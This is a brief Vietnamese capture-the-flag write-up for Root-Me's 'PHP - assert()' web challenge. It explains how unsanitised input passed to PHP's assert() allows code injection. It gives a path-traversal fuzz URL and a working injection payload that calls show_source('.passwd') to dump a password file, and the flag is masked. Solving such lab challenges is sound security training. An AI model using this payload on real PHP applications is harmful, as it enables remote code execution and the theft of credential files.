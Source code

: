 # [PHP - assert()](https://www.root-me.org/en/Challenges/Web-Server/PHP-assert)

Thử fuzz với payload: `http://challenge01.root-me.org/web-serveur/ch47/?page=../`

![](./media/image1.png)

Website sử dụng `assert("strpos('$file', '..') === false") or die("Detected hacking attempt!");` để check xem yêu cầu tìm xem có file hay không, nếu lỗi thì hiện message. Như vậy, ta cần injecton hàm assert này. Tra cheat sheet ta có thể nhét BOOLEAN kèm theo để buộc thực thi với **die()** và để hiển thị source bằng hàm `show_source()`: `and die(show_source('.passwd')) or '`

Lúc này payload có dạng:

`assert("strpos(' ' and die(show\_source('.passwd')) or ' ', '..') === false") or die("Detected hacking attempt!");`

**Payload:** `http://challenge01.root-me.org/web-serveur/ch47/?page=%27%20and%20die(show_source(%27.passwd%27))%20or%20%27`

![](./media/image2.png)

- Flag: "****************************"
